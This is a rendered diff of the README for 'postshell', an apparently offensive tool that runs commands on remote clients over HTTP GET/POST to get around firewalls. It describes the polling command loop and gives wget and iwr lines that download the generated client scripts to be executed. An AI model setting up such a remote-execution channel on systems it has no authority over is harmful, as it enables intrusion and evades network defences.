

Before and after one commit to BwithE/postshell, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -11,10 +11,13 @@ Execute commands on clients using GET/POST requests. (Bypass Firewalls)
 There are some limitations, however, can be very useful if firewall is blocking standard reverse shells.
 
 How postshell works:
-  - Listens for http requests on a user specified port
-  - Generates a web request script `(sh, py, ps1)`
-  - Client scripts connect to the server using POST requests, submitting machine information
-  - Client scripts continue to GET commands from the server, execute the commands, then POST results back to the server
+  - POSTSHELL listens on a "USER SPECIFIED PORT"
+  - POSTSHELL generates web request scripts `(sh, py, ps1)` for clients
+  - POSTSHELL creates a directory called `tools/`, where it will place the "CLIENT SCRIPTS" and it's also a directory that can be downloaded from
+    - (EX: http://127.0.0.1/tools/127_0_0_1_80.sh)
+  - Client scripts submit SYSTEM info using `POST` requests
+  - Client scripts will continue to `GET` commands from the POSTSHELL server, execute the commands, then `POST` results back to the server
+  - POSTSHELL keeps session logs for each client in `session_logs/`
 
 # Disclaimer
 This is only for testing purposes, not intended for anything illegal.
@@ -87,7 +90,5 @@ wget http://127.0.0.1:80/tools/127_0_0_1_80.sh
 
-wget http://127.0.0.1:80/tools/127_0_0_1_80.py
-
-iwr http://127.0.0.1:80/tools/127_0_0_1_80.ps1 -outfile 127_0_0_1_80.ps1
+iwr http://127.0.0.1/tools/127_0_0_1_80.ps1 -outfile 127_0_0_1_80.ps1
 ```
 
 Execute the script on the client
````
Also changed, not shown: other parts of README.md (+2 -2 lines).
